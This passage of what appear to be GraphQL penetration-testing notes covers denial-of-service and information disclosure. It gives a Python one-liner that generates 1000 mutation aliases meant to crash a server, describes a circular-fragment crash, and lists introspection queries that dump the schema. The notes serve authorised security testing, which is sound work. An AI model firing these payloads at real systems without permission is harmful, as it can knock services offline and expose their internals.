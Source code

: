 This python one liner will generate a **list of 1000 aliases** for you to crash the target
```python
python3 -c 'for i in range(0, 1000): print("q"+str(i)+":"+"systemUpdate")'
```

## Circular fragment

Here we are creating two fragments on the `PasteObject` object style called `Start` and `End`, which call each other:

![[Capture d’écran 2023-07-29 012710.png]]

This will crash server instantly

on a real target that uses a properly designed GraphQL engine, **this attack should not work**. **But Test IT !!!!**


# Information Disclosure

```json
query {
  __schema {
    queryType { name }
    mutationType { name }
    subscriptionType { name }
  }
}
```

or for more schema infos : 

```json
query {
  __schema {
    queryType { 
      name
      kind
      fields {
        name
      }
    }
    mutationType { 
      name
      kind
      fields {
        name
      } 
    }
    subscriptionType { 
      name
      kind
      fields {
        name
      }
    }
  }
}
```
